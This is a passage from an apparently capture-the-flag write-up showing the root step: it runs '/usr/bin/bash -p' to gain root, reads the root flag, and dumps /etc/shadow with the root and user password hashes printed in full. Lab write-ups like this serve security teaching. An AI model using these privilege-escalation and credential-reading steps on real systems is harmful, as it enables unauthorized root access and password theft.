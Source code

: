 ## Root
```
-bash-5.0$ /usr/bin/bash -p
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cat /root/root.txt 
a88db384254fd3e17*************

```  
Lets simply run ```/usr/bin/bash -p```, checking the user permissions with the ```id``` command and you can see that the effective user ID that was set at time of execution is ```euid=0(root)```. Lets read the root flag!  
&nbsp;  

*/etc/shadow*  
```
bash-5.0# cat /etc/shadow
root:$6$P153wNg6DwlTSIv0$QFutCIjQWlJM24O6vyD5aoRv7kyvivOykonMDItV8rSqKpznqsmxfK7L51il6V7yF75qHE.Hkv6YLK25TSEle1:19496:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
mysql:!:18859:0:99999:7:::
tss:*:18859:0:99999:7:::
uuidd:*:18859:0:99999:7:::
sshd:*:18859:0:99999:7:::
pollinate:*:18859:0:99999:7:::
systemd-coredump:!!:18859::::::
vdaisley:$6$gRnKXcAaVVjMGjaY$PuuHK2.WUsdjSd/0ife.Arm05hBBZSZUNTGBrojnvRS4zrvV3prcBac4nOH0Id.7bArqL7QtqAAICTs0fQ2Al0:19063:0:99999:7:::
rtkit:*:19230:0:99999:7:::
dnsmasq:*:19230:0:99999:7:::
cups-pk-helper:*:19230:0:99999:7:::
usbmux:*:19230:0:99999:7:::
avahi:*:19230:0:99999:7:::
geoclue:*:19230:0:99999:7:::
saned:*:19230:0:99999:7:::
colord:*:19230:0:99999:7:::
pulse:*:19230:0:99999:7:::
gdm:*:19230:0:99999:7:::
fwupd-refresh:*:19375:0:99999:7:::
_laurel:!:19496::::::

```